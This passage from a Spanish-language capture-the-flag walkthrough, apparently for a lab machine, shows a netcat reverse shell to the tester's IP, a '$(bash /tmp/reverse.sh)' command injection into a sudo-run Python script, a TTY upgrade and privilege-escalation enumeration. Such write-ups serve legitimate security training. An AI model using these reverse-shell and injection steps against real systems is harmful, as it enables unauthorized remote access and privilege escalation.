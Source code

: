 No funcciona. Si miramos el codigo fuente de script en python, vemos que hay caracteres que son considerados como invalidos.
Uno de ellos es el `-`

Decidimos crearnos un fichero `reverse.sh`

```bash
cd /tmp
nano reverse.sh`


#!/bin/bash

nc -e /bin/bash 10.10.14.7 443
```

Le damos derechos de ejecucion y lanzamos el script una vez mas.

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> $(bash /tmp/reverse.sh)
```

Ya hemos podido entablar la conneccion como el usuario pepper y podemos ver la flag.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /home/pepper
ls
cd /Web
cd /Logs
cat 10.10.14.7.txt
```

Aqui vemos que nos a loggeado toda la Injeccion SQL.

```bash
id
sudo -l
find \-perm -4000 2>/dev/null
```
